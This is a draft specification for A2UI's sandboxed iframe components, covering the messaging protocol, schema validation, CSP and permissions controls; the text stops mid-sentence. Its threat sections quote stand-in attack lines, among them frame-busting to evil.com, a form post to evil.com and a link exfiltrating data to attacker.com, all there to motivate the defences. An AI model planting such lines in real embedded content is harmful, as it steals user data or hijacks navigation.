


# A2UI WebApp Iframe Component Specification (v1.0)

## A Specification for Sandboxed, Rich Interactive Components in the Agent-to-UI Protocol

Status: Draft

# Abstract

This specification document defines the A2UI Iframe Component (v1.0) for the secure, sandboxed
rendering of rich interactive web applications and model-generated HTML content. This document
serves two primary purposes:

1. **Platform Implementation Blueprint:** It provides client-side platform developers with a strict,
   standard set of instructions to implement compliant `WebAppFrameUrl` and `WebAppFrameSrcdoc`
   components in any native programming language (e.g., TypeScript/Web, Kotlin/Android, Swift/iOS,
   or Dart/Flutter) while maintaining identical security and sandboxing guarantees.
2. **Interoperable Application Standard:** It defines a secure, transport-agnostic runtime
   environment and messaging contract. Embedded web application developers can build portable
   interactive tools that sync state and invoke local functions inside any A2UI-compliant client.

# 1. Introduction and motivation

The A2UI protocol is designed to stream structured, type-safe JSON component trees to a client
renderer. While A2UI provides standard primitive components (e.g., `Text`, `Row`, `Button`,
`TextField`), complex enterprise use cases often require:

- **Deterministic rendering** of highly custom legacy dashboards, charts, and visualizations.
- **Interactive embeds** like maps, complex multi-step forms, and dynamic tools (e.g., rich text
  editors, calculators, interactive games) served directly by remote servers.
- **Strict isolation** of untrusted third-party applications to protect the host application's DOM,
  session cookies, and storage.

The **A2UI Iframe Component** bridges this gap. It defines a secure runtime environment inside a
sandboxed proxy.

In **A2UI v1.0**, the following A2UI features can significantly increase the Iframe component's
utility:

- **Local Client-Side Function Calls:** Allowing isolated apps to call functions of the surface's
  catalog (e.g., local formatting) that the component explicitly allows.
- **Two-Way Local Data Binding:** Establishing a direct, reactive, network-free synchronization loop
  between the iframe's internal state and the parent A2UI local Data Model.

# 2. Architectural overview

In complex agentic workflows, rendering rich third-party widgets, charts, and legacy dashboards
safely is critical. A2UI provides web-app embedding frames to run isolated code safely.

To meet both security and performance requirements, A2UI separates this specification into two
layers:

1. **The WebAppFrame Runtime & Communication Contract:** A single, unified transport protocol that
   defines how _any_ application running inside an A2UI-based iframe communicates with the host. It
   covers event dispatch, two-way data binding and client-side function calls, all as flat `a2ui_*`
   messages.
2. **Component Catalog Definitions & Rendering Setups:** Two separate frontend component
   definitions—**WebAppFrameUrl** and **WebAppFrameSrcdoc**—each with a tailored schema and unique
   sandbox/security configurations corresponding to their specific source type (external URL vs. raw
   inline HTML).

**Reference implementation.** `@a2ui/catalog-iframe` is the reference TypeScript host for this
specification. It renders both components as universal components and uses the sandbox proxy in
[`typescript/catalogs/shared/sandbox`](../../typescript/catalogs/shared/sandbox), which the MCP
catalog shares. The limits and defaults quoted below are the ones that host uses.

# 3. The WebAppFrame runtime and communication contract

To prevent compromised frames from spoofing ambient messages, the A2UI protocol strictly requires the use of a private `MessageChannel` for all post-initialization communication between the embedded application and the host.

Embedded applications talk to the host with plain `postMessage`; no client library is required. An application listens for `a2ui_app_frame_init`, keeps the `MessagePort` in `event.ports[0]` and uses it for every later message. Ambient `window.postMessage` is only used for the handshake; the host ignores data and action messages that arrive on it.

### Transport Layers & Security Enforcement

Because the communication lifecycle transitions from a public broadcast to a private pipe, different security measures apply depending on the phase:

| Phase                                                | Message Types                                                                            | Transport Mechanism          | Required Security Measures                                                                                                                                                                                                                                                                                                                                                            |
| :--------------------------------------------------- | :--------------------------------------------------------------------------------------- | :--------------------------- | :------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ |
| **Sandbox bootstrap (host ↔ proxy)**                 | `a2ui_sandbox_proxy_ready`, `a2ui_sandbox_resource_ready`                                | Ambient `window.postMessage` | The host accepts `a2ui_sandbox_proxy_ready` only if `event.source` is the proxy frame's window and `event.origin` is the proxy's origin. The proxy accepts messages from the host only from the embedding origin.                                                                                                                                                                     |
| **App handshake (host ↔ app, relayed by the proxy)** | `a2ui_app_frame_ready`, `a2ui_app_frame_init`                                            | Ambient `window.postMessage` | The host accepts `a2ui_app_frame_ready` only from the proxy frame's window and the proxy's origin. The proxy relays messages from the inner frame only if `event.source` is the inner window. The embedded app accepts `a2ui_app_frame_init` only if `event.source === window.parent`. The app runs in an opaque origin, so it posts `a2ui_app_frame_ready` with target origin `'*'`. |
| **Post-Initialization (Routing)**                    | `a2ui_action`, `a2ui_data_model_change`, `a2ui_function_call`, `a2ui_size_changed`, etc. | Dedicated `MessagePort`      | **No Origin Verification Needed:** The `MessageChannel` is a direct point-to-point pipe, so messages arriving on the port come from the app that received it. However, **Schema Validation** (Section 5.5) is strictly enforced by the host on these payloads.                                                                                                                        |

At the wire level, all communications occur using custom top-level message string tags
(`a2ui_*`) with flat keys. The protocol definitions below represent this underlying wire format.

## 3.1. Sandbox bootstrap lifecycle

Both components load their content through the sandbox proxy, so each frame first completes this
bootstrap.

This bootstrap ensures that the untrusted URL or HTML content is securely injected into a strict
inner sandbox, rather than loading directly into the outer proxy frame. There are two proxy pages:
`sandbox.html` for inline HTML and `sandbox-url.html` for an external URL. The host serves the proxy
pages itself (the reference host defaults to `/a2ui-sandbox/` on its own origin; production hosts
should use a dedicated origin).



1. **`a2ui_sandbox_proxy_ready` (Proxy -> Host):** The proxy refuses to start unless it is framed
   and `document.referrer` comes from an allowed embedding origin (its own origin or one listed in
   its `a2ui-sandbox-host-origins` meta tag). It then posts `a2ui_sandbox_proxy_ready` to that
   origin only. The same proxy also serves MCP Apps hosts and sends their JSON-RPC ready
   notification as well; a WebAppFrame host ignores it.
   ```json
   {
     "type": "a2ui_sandbox_proxy_ready"
   }
   ```
2. **`a2ui_sandbox_resource_ready` (Host -> Proxy):** The host replies with the resource to load
   and the inner frame's sandbox flags.
   ```json
   {
     "type": "a2ui_sandbox_resource_ready",
     "url": "https://untrusted-3p-app.com/?origin=https%3A%2F%2Fhost.example",
     "sandbox": "allow-scripts allow-forms allow-modals"
   }
   ```
   For `WebAppFrameSrcdoc` the host sends `html` instead of `url`. `sandbox` sets the inner frame's
   flags; the proxy removes `allow-same-origin` from it if present.
3. **Inner Sandbox Creation:** The proxy creates the inner `<iframe>` with the requested `sandbox`
   flags (never `allow-same-origin`) and a deny-all Permissions Policy, loads the URL through `src`
   or the HTML through `srcdoc` (after injecting its own CSP `<meta>`), and relays messages in both
   directions. On load it posts a `sandbox-init` message to the inner frame, which applications can
   ignore.

## 3.2. Application handshake lifecycle

To guarantee that state synchronization messages are never lost during initial frame loading, a
formal bidirectional handshake should be strictly enforced:



1. **`a2ui_app_frame_ready` (Embedded App -> Host Client):** Once the embedded application is fully
   loaded and its `window.addEventListener('message', ...)` listener is registered, it posts
   `{type: 'a2ui_app_frame_ready'}` to `window.parent` with target origin `'*'`. The proxy relays it
   to the host. If the app reloads and sends the signal again, the host closes the previous channel
   and starts a new handshake.
   ```json
   {
     "type": "a2ui_app_frame_ready"
   }
   ```
2. **`a2ui_app_frame_init` (Host Client -> Embedded App):** Upon receiving the ready signal, the
   Host Client immediately replies with an `a2ui_app_frame_init` message containing the static
   configuration (`config`), the current value of every `data.paths` binding (`initialData`), the
   `allowedEvents` and `allowedFunctions` maps (name to JSON Schema), the keys the app may write
   (`mutableDataKeys`) and the frame's dimensions (`hostContext`). **Host clients must also
   transfer a `MessagePort`** with this message (the app reads it from `event.ports[0]`) to
   establish the dedicated 1-to-1 communication bridge for all subsequent data and event messages.
   ```json
   {
     "type": "a2ui_app_frame_init",
     "value": {
       "config": {"theme": "dark"},
       "initialData": {
         "selectedModel": {"id": "model_s", "trim": "Plaid"},
         "carColor": "Pearl White"
       },
       "allowedEvents": {"onCheckoutSubmit": {"type": "object"}},
       "allowedFunctions": {"formatCurrency": {"type": "object"}},
       "mutableDataKeys": ["carColor"],
       "hostContext": {"containerDimensions": {"width": 800, "height": 500}}
     }
   }
   ```

## 3.3. Outgoing messages (Embedded app to host)

Once the initial handshake is complete, all subsequent outgoing messages from the embedded application must be dispatched using the `postMessage` method of the `MessagePort` received during the `a2ui_app_frame_init` handshake (e.g., `hostPort.postMessage({ ... })`). Ambient `window.parent.postMessage` must not be used after the initialization handshake.

### A. Event dispatch (`a2ui_action`)

Dispatched when the user interacts with the embedded application (e.g., clicking a button) and the
app wants to trigger a server-side action.

**Message schema**

```json
{
  "type": "a2ui_action",
  "action": "string",
  "data": {
    "key": "any-primitive-or-nested-json"
  }
}
```

**Host action**  
The host drops the message unless `data` is an object (or absent), `action` is a key of
`allowedEvents` and `data` matches the JSON Schema stored under it. An accepted action is dispatched
as the component's `event` action, with `action` as the name and `data` as the context, so it
reaches the agent like any other component action. Every dropped message logs a warning in the
console.

### B. Reactive state synchronization (`a2ui_data_model_change`)

Dispatched when the embedded application updates its internal state and wants to write it back to
the parent A2UI Data Model.

**Message schema**

```json
{
  "type": "a2ui_data_model_change",
  "key": "string",
  "subpath": "string",
  "value": "any-primitive-or-json-object"
}
```

**Host action**  
The host drops the change unless `key` is a key of `mutableData` and is bound in `data.paths`.
`subpath`, if present, is a JSON Pointer relative to the bound path; subpaths containing
`__proto__`, `constructor` or `prototype` are rejected. The host validates the value the binding
would hold after the write against the key's `mutableData` schema, then writes it to the data model,
which updates sibling components.

To avoid infinite update loops and redundant echoes, both sides should implement cycle prevention:

1. **Host-side Write Lock / Echo Suppression:** When the host processes an incoming
   `a2ui_data_model_change` message from the app, it should temporarily set a transaction flag (or
   write lock) during the write to its local store. The host's data subscription listener should
   check this flag and suppress sending a loopback `a2ui_data_model_update` notification to the app
   for the duration of that synchronous write stack.
2. **Deep-Equality Checking:** The host discards incoming `a2ui_data_model_change` messages if the
   value is structurally identical to the current state at the target path, and the embedded app
   does the same for incoming `a2ui_data_model_update` messages to prevent unnecessary redraw
   cycles.

> [!WARNING] Because state propagation is bi-directional over an asynchronous sandbox boundary, race
> conditions or state clobbering can occur if the host and the embedded app write to the same path
> concurrently. To prevent race conditions, the embedded application and the host SHOULD use
> targeted subpath updates (via the `subpath` parameter) rather than transmitting full object
> snapshots. The reference host already sends object changes to the app as per-field subpath
> updates.

### C. Local client-side function execution (`a2ui_function_call`)

Dispatched when the embedded app wants to invoke a registered local v1.0 function.

**Message schema**

```json
{
  "type": "a2ui_function_call",
  "call": "string",
  "callId": "string | number",
  "args": {
    "argName": "any-value"
  }
}
```

**Host action**  
The host checks that `call` is a key of `allowedFunctions` and that `args` is an object matching its
JSON Schema, then invokes the function from the surface's catalog and replies with
`a2ui_function_result`. A rejected call also gets a reply, with an error code (Section 3.4.B).
`callId` may be a string or a number and is echoed back.

### D. Frame resize request (`a2ui_size_changed`)

Lets the app request a new width, height or both, so the frame can fit its content without
scrollbars.

**Message schema**

```json
{
  "type": "a2ui_size_changed",
  "height": "number",
  "width": "number"
}
```

**Host action**  
Either field may be omitted. The host applies the request to the frame's size after the guardrails
in Section 5.4.

## 3.4. Incoming messages (Host to embedded app)

### A. Reactive state update (`a2ui_data_model_update`)

Sent whenever the data bound through `data.paths` changes in the parent A2UI Data Model. The
embedded app consumes this update and synchronizes its local UI/state with the updated values. If
`subpath` is provided, the app updates state at that specific subpath relative to the binding named
by `key`. If `subpath` is omitted, the app replaces the whole value of that binding.

**Message schema**

```json
{
  "type": "a2ui_data_model_update",
  "key": "string",
  "subpath": "string",
  "value": "any-primitive-or-json-object"
}
```

### B. Local function execution output

Sent as a response to an `a2ui_function_call` execution.

**Message schema (success or error)**

```json
{
  "type": "a2ui_function_result",
  "call": "string",
  "callId": "string | number",
  "status": "success | error",
  "result": "any-value-or-object",
  "error": {
    "code": "string",
    "message": "string"
  }
}
```

`result` is present on success and `error` on failure. `error.code` is `NOT_ALLOWED` (function not
in `allowedFunctions`), `VALIDATION_ERROR` (arguments not an object or not matching the schema) or
`EXECUTION_ERROR` (the function threw).

**Embedded app action**  
The embedded app consumes this result and processes it based on its own logic.

### C. Host context update (`a2ui_host_context_update`)

Sent whenever the frame's rendered size changes, for example when the surface layout or the window
changes. This allows the embedded app to adapt its layout to the newly allocated dimensions.

**Message schema**

```json
{
  "type": "a2ui_host_context_update",
  "value": {
    "containerDimensions": {
      "width": 900,
      "height": 600
    }
  }
}
```

**Embedded app action**  
The embedded app consumes this updated configuration and dynamically adjusts its internal rendering
as needed.

## 3.5. Relation to MCP Apps

The MCP catalog's `McpApp` component embeds MCP Apps, which use JSON-RPC 2.0 messages from
`@modelcontextprotocol/ext-apps`. WebAppFrame uses flat `a2ui_*` messages instead, so an app written
for one protocol does not run in the other's component. Both components use the same sandbox proxy,
which understands the bootstrap messages of both protocols.

# 4. Component catalog definition

The two web frame components, _WebAppFrameUrl_ and _WebAppFrameSrcdoc_, shall be registered as
distinct options in an A2UI v1.0 component catalog.

## 4.1. WebAppFrameUrl schema definition

Used to load an external web application hosted on a remote domain.

The normative schema is `WebAppFrameUrl` in [catalog.json](catalog.json). The component requires
`component` and `url` (a `DynamicString` holding an http or https URL) and accepts the shared
properties `height`, `config`, `data.paths`, `allowedEvents`, `allowedFunctions`, `mutableData` and
`disableSchemaValidation`.

## 4.2. WebAppFrameSrcdoc schema definition

Used to load standalone, sandboxed, model-generated HTML/JS layouts.

The normative schema is `WebAppFrameSrcdoc` in [catalog.json](catalog.json). The component requires
`component` and `htmlContent` (a string rendered through `srcdoc`; a value prefixed with
`url_encoded:` is decoded first) and accepts the same shared properties as `WebAppFrameUrl`.

## 4.3. Data types and state binding patterns

WebAppFrame components distinguish between three categories of data passed to the embedded application. Selecting the appropriate category depends on whether the data changes over time, where the source of truth lives, and whether the embedded application is authorized to mutate it.

| Data Type                                                     | Source of Truth / Location                                                        | Lifetime Mutability                                                                                                | Reactive Subscriptions                                                                                                                                              | When to Use                                                                                                                                                     |
| :------------------------------------------------------------ | :-------------------------------------------------------------------------------- | :----------------------------------------------------------------------------------------------------------------- | :------------------------------------------------------------------------------------------------------------------------------------------------------------------ | :-------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| **Static Configuration (`config`)**                           | Inline in the **Component Definition** in the UI stream.                          | **Immutable.** Evaluated once when the component is created. Neither the iframe nor the host or server changes it. | **None.** Delivered once during the `a2ui_app_frame_init` handshake. No listeners are created.                                                                      | Widget initialization settings, theme preferences, locale, tenant IDs, static labels, or feature flags. Never secrets: the app and the agent both see `config`. |
| **Read-Only Bound Data (`data.paths` without `mutableData`)** | In the shared **A2UI Data Model**, referenced via a JSON Pointer in `data.paths`. | **Externally dynamic.** Read-only to the iframe, but the host or server can dynamically update it at any time.     | **Active subscription.** The host subscribes to the Data Model path and pushes `a2ui_data_model_update` messages whenever the value changes.                        | Real-time streaming values from the backend, such as live sports scores, stock ticker prices, or status indicators.                                             |
| **Mutable Bound Data (`data.paths` with `mutableData`)**      | In the shared **A2UI Data Model**, referenced via a JSON Pointer in `data.paths`. | **Bidirectional.** Both the server/host and the embedded iframe can update or mutate the value.                    | **Active bidirectional sync.** The host pushes updates to the iframe, and the host firewall authorizes incoming `a2ui_data_model_change` mutations from the iframe. | Interactive form fields, user selections, calculator inputs, or shared document state that the user modifies.                                                   |

# 5. Rendering setup and security controls

The separation of A2UI web frames into two components is fundamentally driven by their divergent
threat models and sandbox requirements.

## 5.1. Overall security specifications

Beyond the specific network and rendering isolation strategies, both `WebAppFrameUrl` and
`WebAppFrameSrcdoc` components enforce strict, capability-based security through the Principle of
Least Privilege:

- **Explicit Action Allowlisting (`allowedEvents`):** The embedded application cannot trigger
  arbitrary host or server-side actions. The host client acts as a strict firewall for all
  `a2ui_action` payloads, dropping any action name not explicitly pre-approved in the component's
  `allowedEvents` map.
- **Restricted Client-Side Execution (`allowedFunctions`):** The embedded application is blocked
  from arbitrarily invoking local client-side APIs. Every `a2ui_function_call` request is
  intercepted and validated against the `allowedFunctions` map.
- **Targeted state scoping (`data.paths`, `mutableData`):** The app sees only the paths bound in
  `data.paths` and can write only the keys listed in `mutableData`.
- **Denial-of-Service (DoS) Prevention (Throttling & Equality Checks):** To prevent malicious
  applications from monopolizing the host's main thread or initiating infinite render loops, the
  protocol mandates deep-equality checks for state updates and strict throttling/clamping for
  dynamic resize requests.
- **JSON payload limits:** The host rejects any message from the app that contains a `__proto__`,
  `constructor` or `prototype` key, nests deeper than 10 levels or serializes to more than 64 KB
  (Section 5.5.4).
- **Permissions Policy:** The inner frame gets a deny-all policy for camera, microphone,
  geolocation and clipboard access (Section 5.6). WebAppFrame components cannot request these
  capabilities.
- **Top-Level Window Hijacking & Frame-Busting Defense:** Preventing untrusted or partner scripts
  from attempting `window.top.location = "https://evil.com"` to redirect or hijack the host window by
  strictly omitting `allow-top-navigation` and `allow-top-navigation-by-user-activation` across all
  iframe sandbox configurations.

> [!NOTE] **CSP Delivery Nuance:** There is a fundamental difference in how Content Security
> Policies (CSP) are enforced between the two component types. When fetching the application by URL
> (`WebAppFrameUrl`), the inner iframe loads an external resource via its `src` attribute;
> therefore, the sandbox proxy cannot inject a `<meta>` tag into the document's `<head>`. CSP must
> be delivered entirely via HTTP `Content-Security-Policy` headers from the remote server.
> Conversely, for `WebAppFrameSrcdoc` the host holds the raw HTML and injects a CSP `<meta>` tag
> into it before rendering.

## 5.2. WebAppFrameUrl rendering & security specifications

Since `WebAppFrameUrl` loads content from remote servers, its threat model revolves around phishing
and malicious tab-navigation.

**Required Hardening Controls:**

- **URL checks:** The host loads only `http:` and `https:` URLs. Hosts that need to restrict which
  sites agents can embed should check the URL against their own allowlist before rendering; the
  catalog does not define one.
- **Server-Side CSP Enforcement:** Because the application is fetched by URL, the host cannot inject
  a CSP `<meta>` tag. The remote server is responsible for supplying appropriate HTTP
  `Content-Security-Policy` headers.
- **Origin parameter:** The host sets the `origin` query parameter of the URL to its own origin
  (replacing any existing value), so the app knows which host embeds it.
- **Source and origin checks:** The host accepts handshake messages only from the proxy frame's
  window and the proxy's origin. The proxy relays messages from the inner frame only if they come
  from that frame's window.
- **Double-Iframe Sandboxing (Web Platforms):** A single layer iframe does not offer good isolation.
  Web renderers load the content through a sandbox proxy page. The proxy should be served from a
  dedicated origin; serving it from the host's origin works but gives no isolation beyond the
  sandboxed inner frame. The inner frame is sandboxed without `allow-same-origin`.
- **Top-Level Navigation Restriction (Omit `allow-top-navigation`):** The iframe `sandbox` attribute
  must strictly omit `allow-top-navigation` and `allow-top-navigation-by-user-activation`. This prevents
  embedded web applications from executing frame-busting scripts (such as assigning
  `window.top.location = "https://evil.com"`) that would hijack and navigate the host browsing context away.

## 5.3. WebAppFrameSrcdoc rendering & security specifications

Since `WebAppFrameSrcdoc` renders raw, dynamic markup, it must be executed under a Network-Free
Sandbox to prevent CSRF and exfiltration.

**Required Hardening Controls:**

- **CSP injection:** The host parses the HTML and inserts a CSP `<meta>` tag as the first child of
  `<head>`, at least as strict as:
  `default-src 'self' 'unsafe-inline' 'unsafe-eval' data:; connect-src 'none'; form-action 'none'; base-uri 'none'; object-src 'none'; frame-src 'none';`.
  Author CSP tags are kept; a document enforces every policy it carries, so they can only narrow
  this one.
- **Form-Based Exfiltration Prevention (`form-action 'none'`):** When `allow-forms` is included in
  the iframe sandbox attributes (to allow local interactive form controls), untrusted scripts in
  `WebAppFrameSrcdoc` could attempt to submit an HTML form (`<form action="https://evil.com/post" method="POST">`)
  to an external server. Because `connect-src 'none'` only blocks APIs like `fetch` and `XMLHttpRequest`,
  injecting `form-action 'none';` closes HTML form navigation and submission bypasses.
- **Base URI and Plugin Lockdown (`base-uri 'none'; object-src 'none'; frame-src 'none'`):** Prevents
  untrusted markup from using `<base href="...">` tags to hijack relative URLs to external domains,
  and restricts legacy plugin embeddings (`<object>`, `<embed>`) and nested subframes.
- **Explicit Deny-All Permissions Policy:** To prevent untrusted markup from accessing sensitive hardware
  sensors (camera, microphone, geolocation) or interacting with the system clipboard without host mediation,
  the renderer must set an explicit deny-all Permissions Policy on the inner iframe element by default:
  `allow="camera 'none'; microphone 'none'; geolocation 'none'; clipboard-read 'none'; clipboard-write 'none';"`.
- **Top-Level Window Hijacking Prevention:** The inner frame's sandbox is
  `allow-scripts allow-forms allow-modals`. It excludes `allow-same-origin`, `allow-popups`,
  `allow-top-navigation` and `allow-top-navigation-by-user-activation`, which blocks embedded
  scripts from redirecting the host window via `window.top.location` or anchor tags with
  `target="_top"`.
- **Link interception:** The host injects a script that intercepts link clicks in the capture phase,
  cancels the navigation and reports the link as an `open_url` action
  (`{"action": "open_url", "data": {"url": "..."}}`) on the port. The action follows the normal
  allowlist, so a host that wants to open links lists `open_url` in `allowedEvents`. Clicks before
  the handshake are cancelled and not reported.
- **Double-Iframe Sandboxing (Web Platforms):** A single layer iframe does not offer good isolation.
  Web renderers must load raw HTML via a nested proxy frame (e.g., A2UI Sandbox Proxy). The proxy
  coordinates message transfers, while the inner iframe is strictly sandboxed without
  `allow-same-origin`.
- **Source Verification:** The proxy must verify postMessage payloads exclusively via
  `event.source === inner.contentWindow` equality.

## 5.4. Security controls and operational guardrails

To prevent poorly written or malicious embedded applications from thrashing the layout or initiating
infinite render loops, the Host Client must enforce the following runtime controls when processing
`a2ui_size_changed` requests:

- **Clamping:** The host must clamp the requested dimensions using configuration rules (e.g.,
  `minHeight: 100px`, `maxHeight: 2000px`, `minWidth: 200px`, `maxWidth: 3000px`).
- **Throttling:** The host applies at most one resize per frame every 100 ms; within that window the
  latest request wins.
- **Threshold:** Once a size has been applied, a change smaller than 5 pixels in a dimension is
  ignored for that dimension.

## 5.5 JSON Schema Validation Firewall

To add a layer of security to support complex JSON payloads being sent from the embedded app to the
host when triggering events, two-way data binding, and local function execution, the
`WebAppFrameUrl` and `WebAppFrameSrcdoc` components act as a strict, centralized firewall to block
JSON payloads that do not adhere to the expected JSON schema. The host application must never
process or forward messages from the embedded app without first validating them against a
server-dictated schema.

### 5.5.1. Server-Dictated Validation Rules

The component definition carries the schemas: `allowedEvents` (action name to the schema of
`data`), `allowedFunctions` (function name to the schema of `args`) and `mutableData` (binding key
to the schema of the bound value). The host passes `allowedEvents`, `allowedFunctions` and the keys
of `mutableData` (`mutableDataKeys`) to the app in `a2ui_app_frame_init`. The `mutableData` schemas
stay on the host.

### 5.5.2. The Interception & Validation Flow

When the embedded app dispatches a message over the dedicated `MessagePort`, the WebAppFrame component executes the following pipeline, in this order, before interacting with the host's surface or the backend:

- **Payload Sanitization & Security Verification (Section 5.5.4):**
  - _Prototype Pollution Rejection:_ The component recursively checks all property names in the message payload and rejects any message containing forbidden prototype pollution keys (`__proto__`, `constructor`, `prototype`).
  - _Nesting Depth Inspection:_ The component inspects the object hierarchy to ensure the JSON nesting depth does not exceed 10 levels.
  - _Payload Size Enforcement:_ The component verifies that the JSON serialization of the message does not exceed 65,536 characters (64 KB).
- **Wire Format Check:** The message must be one of the app-to-host messages of Section 3.3, with the field types defined there.
- **Allowlist and Schema Enforcement:**
  - _For `a2ui_action`:_ The component looks up the `action` string in `allowedEvents`. It runs the
    `data` payload against the associated schema (e.g., using a JSON Schema validator).
  - _For `a2ui_data_model_change`:_ The host checks that `key` is listed in `mutableData` and bound
    in `data.paths`, and validates the value the binding would hold after the write against the
    key's schema.
  - _For `a2ui_function_call`:_ The component verifies the function is in `allowedFunctions`
    and validates the arguments against the function's schema.
- **Rejection:** A message that fails any check is dropped and the host logs a warning. A rejected
  `a2ui_function_call` also gets an `a2ui_function_result` with `status: "error"` so the app's
  pending call settles. The host must not forward malformed data to the backend.

### 5.5.3. Denial of Service (DoS) Prevention and Rate Limiting

To prevent a compromised iframe from exhausting host resources, thrashing the main UI thread, or flooding the A2UI server:

- **Rate limiting:** Hosts may drop messages from an app that sends them faster than they can
  process. This specification does not require rate limiting beyond the resize throttling of
  Section 5.4.
- **Dynamic Resize Throttling & Clamping:** The host must clamp and throttle resize events (as specified in Section 5.4) to prevent rapid redraw thrashing and UI jitter.
- **Deep-Equality Cycle Prevention:** The host and embedded app must enforce structural equality checks on state updates to prevent infinite update ping-pong loops.

### 5.5.4. JSON Payload Protection and Prototype Pollution Defense

To prevent untrusted applications from crashing host parsers via stack exhaustion, exhausting memory, or polluting JavaScript object prototypes, the host enforces the following guardrails on every message the app sends over the port:

- **Prototype Pollution Key Rejection:** The host must recursively inspect all incoming message payloads and reject any payload containing `__proto__`, `constructor`, or `prototype` property keys at any depth.
- **Maximum JSON Nesting Depth:** Messages nested deeper than 10 levels of objects or arrays are rejected.
- **Maximum Message Payload Size:** The host rejects a message whose JSON serialization is longer than 65,536 characters (64 KB).

### 5.5.5. Disabling schema validation

For a trusted first-party application, the agent can set `disableSchemaValidation: true` on the
component. The host then skips the JSON Schema checks of `allowedEvents`, `allowedFunctions` and
`mutableData`. Everything else still applies: names must be listed in those maps, and the payload
limits of Section 5.5.4 and the source checks of Section 3 are unchanged.

**Security constraint:** The agent backend must only set this flag for applications it trusts, and
must not let a model set it for external or untrusted content.

### 5.5.6. Top-Level Window Hijacking (Frame-Busting) Prevention

- **Risk Assessment:** Likelihood: MED | Impact: HIGH | Relevant trust tiers: Tier 3 (Zero-trust untrusted) and Tier 2 (Semi-trusted partner).
- **Security Concern:** Embedded third-party scripts or model-generated HTML may attempt top-level window hijacking (frame-busting) by setting `window.top.location = "https://evil.com"`, modifying `window.parent.location`, or executing link navigations targeting `_top`. This can redirect the host user away from the application to a phishing or malicious landing page.
- **Mandatory Sandbox Directive Rules:** Hosts must not include `allow-top-navigation`, `allow-top-navigation-by-user-activation` or `allow-top-navigation-to-custom-protocols` in the inner frame's sandbox flags. The proxy always removes `allow-same-origin`.

### 5.5.7. 1-Click Hyperlink Exfiltration via Navigation and Clickjacking Prevention

- **Risk Assessment:** Likelihood: MED | Impact: HIGH | Relevant trust tiers: Tier 3 (Zero-trust untrusted) and Tier 2 (Semi-trusted partner).
- **Security Concern:** While `connect-src 'none'` blocks API requests (`fetch`, `XMLHttpRequest`, `WebSocket`) and `form-action 'none'` blocks HTML form submissions, standard Content Security Policy directives do not govern normal hyperlink navigations. An embedded malicious script in `WebAppFrameSrcdoc` could read sensitive data model state or user inputs, dynamically construct an anchor tag containing the stolen data in query parameters (e.g., `<a href="https://attacker.com/leak?data=...">`), and use transparent CSS overlays to trick the user into clicking anywhere on the component. If the iframe sandbox allowed popups, this click would silently navigate to the attacker's server in a new tab or window, exfiltrating the payload.
- **Controls:**
  - The inner frame's sandbox omits `allow-popups` and `allow-popups-to-escape-sandbox`, so links cannot open new windows.
  - In `WebAppFrameSrcdoc` documents, the host intercepts link clicks in the capture phase and reports them as `open_url` actions instead of navigating (Section 5.3). `WebAppFrameUrl` content is a remote document the host cannot modify, so the remote server is responsible for its links.

## 5.6. Permissions Policy and Declarative Capability Delegation

Because untrusted third-party code and model-generated HTML execute within sandboxed iframes, access to sensitive hardware sensors (camera, microphone, geolocation) and the system clipboard (`navigator.clipboard`) presents critical security and privacy considerations.

### 5.6.1. Threat Model & Default Deny-All Baseline

Even within a sandboxed iframe with an opaque `null` origin:

- **Clipboard Scraping & Injection:** Malicious scripts could attempt to read passwords, auth tokens, or private user data via `navigator.clipboard.readText()`, or silently overwrite the clipboard.
- **Hardware Probing & Fingerprinting:** Scripts could attempt to invoke `navigator.mediaDevices.getUserMedia()` or `navigator.geolocation.getCurrentPosition()`, triggering intrusive browser permission dialogs or fingerprinting devices.

To establish a strict capability ceiling, the host wrapper/proxy injects an explicit **deny-all Permissions Policy** by default on the inner iframe element:

```html
<iframe
  sandbox="allow-scripts allow-forms allow-modals"
  allow="camera 'none'; microphone 'none'; geolocation 'none'; clipboard-read 'none'; clipboard-write 'none';"
  ...
></iframe>
```

Under this default policy, native browser engine capabilities are physically disabled, preventing any unauthorized sensor prompts or ambient clipboard access.

### 5.6.2. Capability delegation

WebAppFrame components do not declare permissions, so their inner frame always runs under the deny-all baseline. The shared sandbox proxy can delegate camera, microphone, geolocation and clipboard-write access when the host passes a `permissions` object in `a2ui_sandbox_resource_ready`; the MCP catalog uses this for MCP Apps that request permissions. A future version of this catalog may add a `permissions` property that maps to the same mechanism.

# 6. Implementation guidelines

- **No client library needed:** Apps use `postMessage` and the `MessagePort` from the handshake
  directly, which keeps model-generated HTML self-contained.
- **Double-iframe sandbox:** Load content through a sandbox proxy page rather than a single iframe.
  The A2UI repository ships one in
  [`typescript/catalogs/shared/sandbox`](../../typescript/catalogs/shared/sandbox) (`sandbox.html`
  for inline HTML, `sandbox-url.html` for URLs), shared with the MCP catalog. Serve it from a
